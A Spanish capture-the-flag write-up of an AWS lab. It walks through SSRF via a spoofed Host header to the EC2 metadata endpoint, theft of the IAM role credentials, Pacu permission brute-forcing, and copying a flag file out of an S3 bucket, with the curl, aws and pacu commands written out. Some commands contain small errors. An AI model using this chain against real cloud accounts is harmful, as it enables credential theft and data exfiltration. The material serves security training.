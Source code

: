 # Previo: Instalar pacu
Pacu es un framework de explotación de AWS que usaremos en este CTF. 
No viene instalado por defecto en Kali pero sí que está en el package manager de Python, así que podemos instalarlo fácilmente:
`pip install -y pacu`
# Resolución del CTF
Disponemos de una IP pública como la única información del CTF. 
Podemos tirarle un nmap para ver puertos, y veremos que no hay mucha información además de un puerto 22 y 80. 
El vector de ataque está en el puerto 80, de hecho, si lanzamos un curl nos dará un mensaje de error interesante:
![](attachments/CTF.png)
El endpoint de metadatos de AWS está siempre en la misma IP dentro de las redes privadas de AWS donde los EC2 se ejecutan, y este endpoint es usado por los EC2 para consultar información dinámicamente de sus metadatos. 
Si conseguimos información acerca de los metadatos del EC2, como sus credenciales, podemos ejecutar acciones bajo los privilegios que tenga este EC2. Generalmente acceder a este endpoint no es posible, a no ser que explotemos una vulnerabilidad SSRF (Server-Side Request Forgery) o tengamos ejecución de código en el EC2.

El siguiente paso, por tanto, sería consultar este endpoint de metadatos (ya que el EC2 tiene el proxy mal configurado y permite consultas a este endpoint):
`curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`

![](attachments/CTF-1.png)

Vemos que el EC2 está bajo un rol de AWS que quizás tenga permisos interesantes. Usando este mismo endpoint de metadatos podemos acceder a las credenciales de este rol:
`curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`

![](attachments/CTF-2.png)

Con las credenciales (AccessKeyId, SecretAccessKey y el Token) podemos utilizar este rol, que tendrá políticas asociadas:
`aws configure --profile cg-banking-WAF-Role-ctf` 

![](attachments/CTF-3.png)

Es necesario añadir el token porque la cuenta root de AWS tiene el 2FA activado (si no no haría falta este paso). Debemos de añadirlo en `~/.aws/credentials`:

![](attachments/CTF-4.png)

Podemos ver información del rol de AWS con el siguiente comando:
`aws sts get-caller-identity --profile cg-banking-WAF-Role-ctf`

![](attachments/CTF-5.png)

Si intentamos listar las políticas attacheadas del rol, vemos que no tenemos permisos de IAM para ejecutar dicha operación:

![](attachments/CTF-6.png)

Por tanto, debemos tirar de alguna herramienta para enumerar qué políticas interesantes tenemos con este rol.
Ejecutamos pacu (que hemos instalado previamente) y dentro de pacu, seleccionamos el rol que hemos configurado previamente:
`import_keys <role>`

![](attachments/CTF-7.png)

Y ejecutamos el script para bruteforcear permisos (tarda un rato):
`run __iam_bruteforce_permissions`

![](attachments/CTF-14.png)
![](attachments/CTF-16.png)

Vemos que hay permisos interesantes, muchos de ellos no nos dan información y otros son rabbit hole.
Uno de los permisos interesantes es listar Buckets S3, que son repositorios de información donde comúmente puede haber archivos confidenciales.
Vamos a listar los buckets que hay en esta cuenta de AWS con el rol que hemos robado:
`aws s3 ls --profile` 

![](attachments/CTF-9.png)

Hay un bucket disponible. Vamos a ver qué archivos hay dentro: 
`aws s3 ls --profile s3://<s3-name>` 

![](attachments/CTF-11.png)

Vaya! Hay un archivo que parece confidencial. También, y por suerte, disponemos de permisos para copiar archivos de S3, así que podemos exfiltrarlo:
`aws s3 cp s3://cg-cardholder-data-bucket-etsiit-ctf-aws-scenario-1/flag.txt flag.txt --profile cg-banking-WAF-Role-ctf`

![](attachments/CTF-12.png)

Finalmente podemos visualizar la flag y comprobar que, efectivamente, hay información confidencial dentro:

![](attachments/CTF-13.png)
